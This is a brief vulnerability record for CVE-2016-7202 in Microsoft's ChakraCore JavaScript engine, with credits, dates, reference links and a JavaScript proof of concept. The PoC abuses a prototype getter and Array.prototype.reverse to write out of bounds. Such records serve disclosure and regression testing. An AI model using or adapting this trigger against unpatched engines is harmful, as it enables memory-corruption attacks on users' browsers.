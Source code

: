 # CVE-2016-7202

- Report: Sep 2016
- Fix: Nov 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var a = [1];
a.length = 1000;
var j = [];

var o = {};
  Object.defineProperty(o, '1', {
    get: function() {
      a.length = 1002;
      j.fill.call(a, 7.7);
      return 2;
    }
  });

a.__proto__ = o;

var r = j.reverse.call(a);
r.length = 0xfffffffe;
r[0xfffffffe - 1] = 10;
```

## Reference

- [Microsoft](https://technet.microsoft.com/library/security/ms16-129)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=925)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/091eeca25e51cc0735b6f439580d43e11e497ebd)
